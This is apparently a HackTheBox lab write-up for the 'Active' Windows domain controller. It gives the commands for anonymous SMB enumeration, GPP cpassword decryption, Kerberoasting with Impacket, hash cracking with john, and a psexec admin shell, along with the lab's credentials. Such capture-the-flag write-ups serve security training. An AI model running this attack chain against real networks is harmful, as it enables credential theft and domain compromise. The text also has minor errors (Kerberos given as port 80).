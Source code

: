 ```yaml
---
layout: single
title:  "HTB - Active Writeup - 10.10.10.100"
date:   2020-06-16 16:49:23 +0100
categories: hackthebox
---
```

![HTB](/images/active/2020-06-16_16-56.png)

# HackTheBox - Active - 10.10.10.100

Active is a 30 point medium rated machine on hackthebox, it involved locating a groups.xml file and decrypting the cpassword inside to get user. Root required the use of `GetUserSPNs.py` to get the tgt of the Admin user who had a service principal name set and finally, `psexec.py` to gain an admin shell.

## 1. Recon 
To start this box off we will do an nmap scan of the target machine, 10.10.10.100  `nmap -sC -sV -oA nmap/active 10.10.10.100` 
### Nmap Scan Results

```
# Nmap 7.80 scan initiated Wed Apr 29 12:08:45 2020 as: nmap -sC -sV -oA nmap/active 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up (0.056s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-29 11:10:12Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

There are a few things to note here, firstly we have kerberos (port 80), ldap (port 389), rpc (port 135) and smb open on port 445. This tells us that this machine is probably an active directory domain controller, if it was not previously obvious by the machines name.

### SMB Shares
Firstly we will start by listing smb shares using anonymous credentials: `smbclient -L \\\\10.10.10.100\\ -U ""`

![HTB](/images/active/2020-06-16_17-46.png)

From this we can see an unusual share, *Replication* Let's try and view the conents of this share


## 2. Enumeration
Now to explore the *Replication* Share, we will use smbclient again: `smbclient \\\\10.10.10.100\\Replication`

![Share](/images/active/2020-06-16_17-52.png)

and as you can see we can access the share using anonymous login, now we can download all the files using the following commands:
`prompt OFF` `recurse ON` `mget *`

![downloading-files](/images/active/2020-06-16_17-55.png)

### Groups.xml
The file of note here is the Groups.xml file, this file is used by a windows service called *Group Policy Preferences* which allows domain admins to roll out passwords for local Administrators over Group Policy, the decryption key was leaked so now any password located inside a Groups.xml file can be decrypted. You can read more about this [Here](https://adsecurity.org/?p=2288) at adsecurity.org

Inside the groups.xml file we see:
![groups-xml](/images/active/2020-06-16_19-30.png)

The cpassword string is the encrypted password for the user  `SVC_TGS`. 

## 3. Exploitation
### Decrypting the cpassword
Kali has a built in utility called `gpp-decrypt` which will decrypt the cpassword string, you can read more about this tool [here](https://github.com/BustedSec/gpp-decrypt).

Now to decrypt the cpassword string from before we can type, `gpp-decrypt edBSHOwhZLTjt/QS9FeIc----------------Q`
![gpp-decrypt](/images/active/2020-06-16_19-35.png)


We now have the credentials of the user `SVC_TGS:GPPstillStandingStrong2k18` and we can attempt to connect to the **Users** SMB Share to grab `user.txt`

`smbclient \\\\10.10.10.100\\Users -U svc_tgs`
![user](/images/active/user.gif)

## 4. Privesc to Domain Admin
### Service Principal Names (SPN's)
Our user account `SVC_TGS` is able to find service principal names associated with user accounts in the domain, you could have found this out by having a look at the username and to see the TGT string at the end which signifies that this account may be able to see SPN's. Through this we are able to get the krb5-tgt of the `Administrator` account using a tool called `GetUserSPNs.py` from the Impacket Repo on [GitHub](https://github.com/SecureAuthCorp/impacket). If you want to know more about this attack I will leave a link to an ADSecurity article [here](https://adsecurity.org/?p=3466).


### Getting the TGT of the Admin User
The syntax for this command is as follows:
`GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -request -dc-ip 10.10.10.100`

-dc-ip is the ip of the domain controller, 10.10.10.100
-request means that we want to request the tgt of any user that has a SPN 

![SPN](/images/active/2020-06-16_20-13.png)

Bingo!! We can now take this TGT to john the ripper to crack

#### Cracking the TGT

We will use john the ripper to crack the TGT, first by placing it in a file named `admin.hash` and then running the following command to run it against the rockyou.txt wordlist. 

`john -w=/usr/share/wordlists/rockyou.txt admin.hash`
![tgt-cracked](/images/active/cracking-tgt.gif)

This gives us the credentials, `Administrator:Ticketmaster1968`

### PSExec 

Now that we hgave the admin credentials we can use the `psexec.py` script from Impacket to gain a shell, if you would like to know more about the psexec.py script you can have a look [here](https://www.sans.org/blog/psexec-python-rocks/).

`psexec.py active.htb/Administrator:Ticketmaster1968`

![rooted](/images/active/root.gif)

## Rooted!!

If you enjoyed my write up or found it useful please check out my htb profile linked below and give a +rep

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)

